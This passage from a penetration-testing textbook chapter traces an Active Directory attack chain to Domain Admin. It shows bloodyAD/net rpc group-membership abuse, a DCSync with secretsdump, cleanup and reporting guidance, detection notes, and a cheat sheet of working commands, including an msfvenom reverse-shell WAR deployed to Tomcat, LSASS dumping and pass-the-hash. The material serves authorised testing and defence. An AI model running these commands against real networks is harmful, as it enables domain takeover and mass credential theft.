# Abuse GenericAll on the Domain Admins group to add a controlled principal.
# net rpc group addmem, authenticated as alice.admin via pass-the-hash,
# targeting the DC. "Domain Admins" is the group; svc-sql the member we add.
net rpc group addmem "Domain Admins" "svc-sql" \
  -U "forge.industries.com/alice.admin%ffff...hash..." \
  -S 10.10.1.10 --pw-nt-hash
```

Or, more explicitly with `bloodyAD`, which is purpose-built for ACL abuse:

```bash
# bloodyAD performs the ACL-based group add cleanly.
# -d domain  --host DC  -u user  -p :hash  (leading colon = NT hash)
# add groupMember : the abuse primitive that GenericAll permits
bloodyAD -d forge-industries.com --host 10.10.1.10 \
  -u alice.admin -p ':e19ccf75ee54e06b06a5907af13cef42' \
  add groupMember "Domain Admins" "svc-sql"
```

Confirm membership took effect:

```bash
netexec smb 10.10.1.10 -u svc-sql -p 'Summer2023$Forge' | grep -i "Pwn3d"
# SMB  10.10.1.10  445  DC01  [+] forge\svc-sql:...  (Pwn3d!)   <-- admin on the DC now
```

`(Pwn3d!)` on the **domain controller** means `svc-sql` is now Domain Admin. To make the compromise complete and demonstrate total domain ownership, dump the entire domain's password hashes with a **DCSync** attack — abusing the replication right that Domain Admins hold to ask the DC for every account's secrets, including the `krbtgt` account:

```bash
# DCSync: impersonate a DC and request replication of all account hashes.
# secretsdump.py with the '-just-dc' flag performs DCSync via MS-DRSR.
# It pulls NTLM hashes and Kerberos keys for every domain principal.
secretsdump.py forge-industries.com/svc-sql:'Summer2023$Forge'@10.10.1.10 -just-dc
```

```
Administrator:500:aad3b...:c0ffeed00d...:::
krbtgt:502:aad3b...:1a2b3c4d...:::            <-- the keys to the kingdom
forge.local\...  (every user hash follows)
```

The `krbtgt` hash is the master key for Kerberos in the domain — with it, an attacker can forge a **Golden Ticket** granting arbitrary access to any resource as any user, persisting even after passwords are reset. Capturing it is the conventional proof that the domain is fully and durably compromised. **Objective achieved: External → Domain Admin.**

Here is the complete path, top to bottom, that we will hand the client:



> **CTF angle.** Phases 5–7 are the entire content of "Active Directory" CTF boxes and pro-lab tracks (HackTheBox's *Dante*, *Cybernetics*, *RastaLabs*; TryHackMe's *Throwback* and *Wreath* networks; the *Zephyr*/*Dante* prolabs). The pattern — Kerberoast → crack → lateral move → dump LSASS → ACL abuse → DCSync — is so standard that internalising this one chapter's flow will carry you through most AD CTF content. The difference in a real test is only the messiness: creds that don't work, EDR that kills your tools, and paths BloodHound shows that turn out to be dead ends because a session went stale.

---

## Phase 8 — Post-Exploitation, Looting, Cleanup, and Reporting

Reaching Domain Admin is the *middle* of the engagement, not the end. The client is paying for **evidence and remediation guidance**, and a compromise you can't prove or that leaves the network broken is a failed test.

### Proving impact (looting)

With Domain Admin you demonstrate business impact — carefully, and strictly within scope. Remember `PROD-PAYMENTS-*` is out of scope: do **not** touch it even though you now could. Instead, prove access to the assets the client cares about that *are* in scope: a domain admin logon to a file server, a screenshot of an internal wiki, the ability to read the HR database that started the chain. Collect **just enough** evidence (screenshots, hashes, a directory listing) to make the risk undeniable, and no more. You are demonstrating capability, not hoarding data.

### Cleanup

Everything you deployed must be removed, and everything you changed must be reverted, tracked in a **cleanup log** you kept live during the test:

| Artifact created | Location | Cleanup action |
|---|---|---|
| `shell.war` web shell | `SQL01`/Tomcat `webapps/` | Undeploy via manager, delete file |
| `svc-sql` added to Domain Admins | AD `Domain Admins` group | Remove membership |
| `l.dmp` LSASS dump | `SQL01:C:\temp\` | Secure-delete the file |
| Any created accounts | AD | Disable/delete |

Removing `svc-sql` from Domain Admins is not optional — leaving a service account in Domain Admins because you forgot is a real breach *you* introduced. Note also what you **cannot** fully clean: once you've extracted the `krbtgt` hash, the only true remediation is for the client to **reset `krbtgt` twice** (the recommended double-reset), which you flag as a required post-engagement action because your knowledge of that hash is itself now a risk.

### Reporting

The report is the deliverable. It has two audiences and therefore two registers:

- **Executive summary** (for leadership): plain language, business risk, one paragraph — "An attacker starting from the public internet with no credentials was able to reach full control of the Windows domain within X hours, via a forgotten legacy server. The most impactful single fix would prevent this entire chain."
- **Technical findings** (for the engineers who fix it): each finding with severity (CVSS), affected assets, reproduction steps, evidence, and specific remediation.

Crucially, structure the technical findings around the **chain**, not a flat list of vulnerabilities, and rank remediation by *how many links it breaks*. The single highest-value fix here is often not the Tomcat box — it's cutting the `GenericAll` ACL edge, because that one misconfiguration is what turned "compromised a low-value HR server" into "owned the entire domain."

| Finding | Severity | Fix | Links broken in the chain |
|---|---|---|---|
| Legacy Tomcat, default manager creds | High | Decommission host; remove default accounts; IP-allowlist manager | Removes the foothold |
| Cleartext service pw in config | Medium | Move to a secrets vault; rotate | Removes a lateral hop |
| Kerberoastable svc-sql, weak pw | High | gMSA / 25+ char password | Breaks the Kerberoast step |
| LSASS credential theft possible | High | Credential Guard; tiering | Breaks lateral cred theft |
| **`GenericAll` on Domain Admins** | **Critical** | **Remove the ACE; audit AD ACLs** | **Breaks the path to DA entirely** |
| Predictable password pattern | Medium | Enforce length; ban `Season+Year` | Weakens spray/crack across the board |



> **Blue Team note.** The best time to catch this chain was not at Domain Admin — it was at every earlier link. Map each attacker step to a detection and you get a defence-in-depth story: egress filtering catches the reverse shell; a `webapps/` file-integrity monitor catches the WAR; a 4769 anomaly catches the Kerberoast; an LSASS-handle alert catches the credential theft; a change-audit on the Domain Admins group catches the final add. A mature SOC doesn't need to catch every step — catching *any one* breaks the chain. The report should say exactly this.

---

## Common Pitfalls (Learned the Hard Way)

- **Scanning out of scope.** The single fastest way to end a career is to point `nmap` at an IP the RoE didn't list. Double-check the range every time; a fat-fingered `/24` instead of `/28` can hit a neighbour's network.
- **Touching carve-outs.** `PROD-PAYMENTS-*` was out of scope. The temptation once you're Domain Admin to "just look" is real and must be resisted — it's a contract violation and possibly a regulatory incident.
- **Skipping situational awareness.** New shell, instant credential-dumping — and you miss that you're in a sandbox, or that the box had the winning config file you never read. Orient before you act.
- **Cracking-first tunnel vision.** Chasing a Kerberoast hash that won't crack while a cleartext password sits in a config file two directories away. Loot the box before you burn hours on hashcat.
- **Trusting BloodHound blindly.** A `HasSession` edge can be stale — the user logged off an hour ago. Verify the session is live (`netexec ... --loggedon-users`) before building a whole plan on it.
- **Reusing one loud tool everywhere.** A Meterpreter payload plus raw `nc` will get you caught the moment EDR is present. Match tooling to the environment; on a red team, assume everything you run is watched.
- **Forgetting cleanup.** Leaving `svc-sql` in Domain Admins or a web shell on disk means *you* are now the vulnerability. Keep a live cleanup log from minute one.
- **No evidence, no finding.** "I got Domain Admin, trust me" is worthless. Screenshot the `whoami` on the DC, save the hash, timestamp everything. If it isn't documented, it didn't happen.
- **Password-spray lockouts.** Spraying too fast trips account-lockout policies and DoSes real users — a scope violation. One or two attempts per account per lockout window, spread out.

---

## Final Revision Recap

- A full-scope internal pentest is **one continuous chain**, not a checklist of isolated exploits. The skill is connecting steps: every credential, service, and host answers "what does this unlock, and does it revive an earlier dead-end?"
- **RoE and scope come first, always.** No signed authorisation, no test. Carve-outs (`PROD-PAYMENTS-*`) are hard boundaries even after you're Domain Admin.
- The phase order is stable: **Recon → Scan → Foothold → Situational Awareness → Credential Access → AD Enumeration → Escalation/Lateral → Domain Dominance → Loot/Cleanup/Report.**
- **Passive recon** (crt.sh, subfinder, theHarvester, breach data) often reveals the winning path — a "legacy" hostname — before you send a single attack packet.
- The **foothold** here was mundane: old Tomcat + default creds + WAR web shell. Most real footholds are this boring. It became critical only because the box was **domain-joined**.
- **Situational awareness and looting** turn one identity into several. Config files with cleartext secrets are everywhere on app servers.
- **BloodHound** converts AD from a list into a graph and hands you the shortest path to Domain Admin. **Kerberoasting** and **LSASS dumping** feed it credentials; **ACL abuse (`GenericAll`)** and **DCSync** cash it out.
- **Detection lives at every link.** The blue team's job — and your report's core message — is that breaking *any one* link (egress filtering, gMSA, Credential Guard, an ACL audit, group-change alerting) stops the whole chain.
- The **report ranks fixes by how many links they break.** The critical fix was the `GenericAll` ACE, not the Tomcat box.

---

## Cheat Sheet — External-to-DA in Commands

```bash
# --- RECON (passive) ---
curl -s "https://crt.sh/?q=%25.TARGET&output=json" | jq -r '.[].name_value' | sort -u
subfinder -d TARGET -all -silent | dnsx -a -resp -silent
theHarvester -d TARGET -b bing,crtsh -l 500

# --- EXTERNAL SCAN ---
sudo nmap -sS -p- --min-rate 2000 -Pn -oA ext RANGE           # fast wide sweep
sudo nmap -sV -sC -p OPEN_PORTS -oA ext-deep HOSTS            # deep on open ports
feroxbuster -u http://HOST:8080 -w raft-medium-directories.txt -x jsp

# --- FOOTHOLD (Tomcat example) ---
hydra -L users -P passwords HOST -s 8080 http-get "/manager/html:A=BASIC:F=401"
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ME LPORT=4444 -f war -o shell.war
curl -u USER:PASS --upload-file shell.war "http://HOST:8080/manager/text/deploy?path=/shell"

# --- SITUATIONAL AWARENESS (on target) ---
whoami /all ; systeminfo ; nltest /dsgetdc:DOMAIN
findstr /si password C:\path\*.xml C:\path\*.properties

# --- AD ENUMERATION ---
bloodhound-python -u USER -p PASS -d DOMAIN -ns DC_IP -c all --zip
GetUserSPNs.py -request -dc-ip DC_IP DOMAIN/USER:PASS -outputfile kerb.txt
hashcat -m 13100 kerb.txt rockyou.txt -r best64.rule

# --- LATERAL MOVEMENT / PRIVESC ---
netexec smb SUBNET -u USER -p PASS                    # find where you're admin (Pwn3d!)
evil-winrm -i HOST -u USER -p PASS                    # interactive shell
rundll32 comsvcs.dll, MiniDump <lsass_pid> l.dmp full # dump LSASS
pypykatz lsa minidump l.dmp                           # parse offline
netexec smb DC_IP -u USER -H NTHASH                   # pass-the-hash

# --- DOMAIN DOMINANCE ---
bloodyAD -d DOMAIN --host DC_IP -u USER -p ':NTHASH' add groupMember "Domain Admins" USER
secretsdump.py DOMAIN/USER:PASS@DC_IP -just-dc        # DCSync all hashes + krbtgt
```

| Attack step | Primary tool | Key detection (Event / signal) |
|---|---|---|
| Port scan | nmap | IDS SYN-scan signature |
| WAR web shell | msfvenom/curl | File write to `webapps/`; outbound to :4444 |
| Kerberoast | GetUserSPNs.py | 4769 burst, RC4 (0x17) |
| LSASS dump | comsvcs/pypykatz | Non-system handle to `lsass.exe` |
| Pass-the-hash | netexec | 4624 Logon Type 3, NTLM |
| ACL abuse | bloodyAD | 4728/4729 group membership change |
| DCSync | secretsdump.py | 4662 with DS-Replication-Get-Changes GUID |

---

## Practice Labs & Resources

Build the muscle memory for *this exact chain* on labs designed around it:

- **TryHackMe — "Wreath"** and **"Throwback"** networks: multi-host internal networks with pivoting, web foothold → AD, mirroring this chapter's flow at a gentle pace.
- **TryHackMe — "Attacktive Directory"** and **"Post-Exploitation Basics"**: focused reps on Kerberoasting, BloodHound, and lateral movement.
- **HackTheBox — Pro Labs "Dante" and "Zephyr"**: full simulated corporate networks (external foothold → pivot → Active Directory → Domain Admin). Dante in particular is the closest public analogue to the engagement in this chapter.
- **HackTheBox — "Jerry" (retired)**: the pure "Tomcat default creds → WAR shell" foothold from Phase 3, isolated.
- **HackTheBox — "Forest", "Sauna", "Active" (retired AD boxes)**: single-primitive AD boxes (AS-REP roast, Kerberoast, DCSync) to drill each phase-5-to-7 step in isolation.
- **GOAD (Game of Active Directory)** — a free, self-hosted vulnerable AD lab you deploy with Vagrant/Ansible; the ideal place to practise Phases 5–7 (BloodHound, Kerberoast, ACL abuse, DCSync) against a domain you fully own.
- **DetectionLab** — pair the attack lab with a defender's lab so you can run each attack *and* watch the Event IDs light up — the fastest way to internalise the Blue Team notes above.
- **PortSwigger Web Security Academy**: for the web-exploitation half of footholds (the labs on file upload, authentication, and access control map directly onto how real footholds are won).

Work one lab end-to-end without notes, writing your own report as if it were a paid engagement. The report is the skill that separates a hobbyist from a professional; the shells are the easy part.

In the next chapter we take the other classic capstone path — solving a boot-to-root CTF machine end to end, HTB/THM style — which compresses this whole methodology onto a single host and sharpens the enumeration-first instinct that carried us here.
